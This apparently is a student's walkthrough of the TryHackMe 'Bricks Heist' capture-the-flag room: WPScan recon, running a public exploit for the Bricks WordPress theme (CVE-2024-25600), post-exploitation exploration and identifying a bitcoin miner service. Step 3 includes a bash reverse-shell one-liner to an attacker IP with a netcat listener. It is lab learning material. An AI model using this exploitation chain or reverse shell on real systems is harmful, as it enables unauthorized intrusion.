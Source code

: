 # Documentation

### Step 1: Recon & Initial Investigation

  - Upon entering the TryHack3M: Bricks Heist room, I started both the AttackBox and the victim system.
  
  - The first instructions state to add the IP to the /etc/hosts file within the AttackBox.
    
  - To do this, I first used the command "cat /etc/hosts" to see what was already in the file.
  
  - I then entered the command, "sudo nano /etc/hosts" to open the file as a .txt document for editing.
  
  - I added a new line under the IP 127.0.1.1, the new line reads, "10.10.240.33 (tab) bricks.thm".
  
  - Since the instructions wanted this IP added to the hosts file, I theorized that it was a webpage. 
  
  - I tested this theory by opening Mozilla Firefox and entering "https://bricks.thm" into the search bar and a webpage loaded that had the title, "Brick by Brick!" with a photo of bricks.
  
  - I decided to investigate the source code of the webpage using CTRL+U.
  
  - I noticed multiple references of "wp-", leading me to believe it was referencing WordPress, so I decided to try WPScan.

  - I opened the terminal and ran the command for WPScan.
    ```bash
    wpscan --url https://bricks.thm/
    ```
      - The scan aborted, "url seems to be down, SSL peer certificate or SSH remote key was not OK".
      - Retried scan while disabling the tls certificate check.
        ```bash
         wpscan --url https://bricks.thm/ --disable-tls-checks
        ```
        
  - The scan ran successfully, the results showed the style "bricks" for WordPress, and the version was 1.9.5.

  - I used Google to search for "bricks 1.9.5" and the results showed that this was a vulnerable version of bricks, and there was an exploit available for this vulnerability (CVE-2024-25600) on GitHub.

    ### Step 2: Exploitation

  - I copied the raw exploit code for the bricks version 1.9.5 vulnerability from GitHub and pasted it into a nano .txt file titled, "shell.py".

  - Opened a terminal and ran the command, ```python3 shell.py -u https://bricks.thm```
    - There was an error running the script, a few modules needed to be installed first.
      - Installed rich module
        ``` bash
        pip3 install rich
        ```
        - Retried the python script, another error occured.
          - Installed prompt-toolkit module
            ``` bash
            pip3 install prompt-toolkit
            ```
            - Retried the python script, yet another error occured.
              - Installed alive-progress module
                ``` bash
                pip3 install alive-progress
                ```
                - Ran python script, it finally worked and the vulnerability was confirmed to be present.
  
  ### Step 3: Exploring Initial Access

  - I ran the command "whoami" to discover who I was logged into.
      ``` bash
      whoami
      ```
    - Results: Apache

    - I ran the command "pwd" to discover where I was located within the file directories.
      ``` bash
      pwd
      ```
        - Results: /data/www/default

        - I attempted to change directories by using "cd /home"
          ``` bash
          cd /home
          ```
            - Results: Deprecated connection. This means that the shell we are using is unstable.
    
    -  I then attempted to set up a reverse shell to hopefully have access to a more stable shell.
      ``` bash
      bash -c 'exec bash -i &>/dev/tcp/10.10.96.228/4444 <&1'
      ```
    - Before executing the reverse shell command, I opened another terminal to set up a listener on port 4444.
    ``` bash
      nc -lvnp 4444
    ```
      - Executed the reverse shell command, the initial access shell closed and a new connection began within the terminal with the listener.
        
      - We then had a stable connection to the shell where we could further explore.
            - I began exploring by running the ``` bash ls ``` command to see what was within the current directory.
                - The results showed a list of .txt and .php files.

    - There were two .txt files that could be seen, one of which had a very long, odd name.
   
    - I used cat to open the file.
        ```bash
        cat 650c844110baced87e1606453b93f22a.txt
        ```
        - Within this file, the flag was found, answering the first question of the room.
        - There were a few other interesting files, such as wp-config.php, which shows hard-coded credentials for the phpMyAdmin page. We might come back to this later.
     
  ## Step 4: Identifying the Suspicious Process
  
  - I had to use Google to find the command for Linux to show running processes on a system.
    ``` bash
    systemctl --type=service --state=running
    ```
    - Among the list of running services shown, I saw one that really stuck out, it was labeled as ubuntu.service and the description was "TRYHACK3M".
        - I used the cat command to look further into the process.
          ``` bash
          systemctl cat ubuntu.service
          ```
          - By doing this, I was able to see that the service was running from a directory located in /lib/NetworkManager/nm-inet-dialog.
              - This gave me the answer to question two for the room.
                
          - I changed directories to /lib/NetworkManager to investigate further.
            ``` bash
            cd /lib/NetworkManager
            ```
          - I used the ls command to attempt to discover other files located within this directory, I wanted to see more information so I used the command ls -l.
            ``` bash
            ls -l
            ```
            - Within this list, there was one file that had read-only permissions, named inet.conf.
              
            - I tried the cat command on the inet.conf file, but it was just a lot of lines repeating the same things, "2024-04-11 10:53:02, 04, 06, 08... [*] Miner()" etc. This led me to think that this process could be some sort of crypto miner and its logs.
            
            - To get a better idea of what exactly was inside of this process, I decided to use the command head, instead of cat.
              ``` bash
              head inet.conf
              ```
              - Doing this confirmed my suspicions of this being a crypto miner, it is a Bitcoin Miner to be exact, and this is where the logs could be found. This gave me the answer to question four.
                
              - This also confirmed that the ubuntu.service process was affiliated with the suspicious process, giving me the answer for question three.
                
- Using the head command, I also was able to find an ID. I thought it might have been encoded, so I used Google to find a website to quickly decode it.
    - I was able to find a website called CyberChef. I copied and pasted the ID into the input and hit the magic wand since I wasn't sure exactly what it was encoded using.
      - At the bottom of the output box, there was a counter to see how many characters were in the output. The output was 85 characters long.
          - Since it's an ID for a Bitcoin Miner, I searched on Google to see how long Bitcoin Wallet addresses are, the results said
              
